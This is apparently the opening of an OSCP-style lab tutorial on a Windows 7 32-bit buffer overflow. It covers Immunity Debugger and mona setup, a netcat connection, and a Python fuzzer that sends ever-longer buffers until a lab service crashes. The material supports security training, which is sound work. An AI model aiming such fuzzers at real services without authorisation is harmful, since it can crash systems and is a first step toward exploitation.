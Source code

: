 # Buffer Overflow Windows 7 32 bits

<strong>Run Immunity Debugger as administrator.</strong>

When Immunity loads, click the open file icon, or choose File -> Open. Select the "oscp" (oscp.exe) binary and click "Open".

The binary will open in a "paused" state, so click the red play icon or choose Debug -> Run. In a terminal window, the oscp.exe binary should be running.

On your Kali box, connect to port PORT on MACHINE_IP using netcat:
```
nc MACHINE_IP PORT
```
### Mona Configuration

The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:
```
!mona config -set workingfolder C:\Users\Mardcore\Desktop\%p
```
### Fuzzing

Create fuzzer.py

```
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.1.201"

port = 1337
timeout = 5
prefix = ""

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
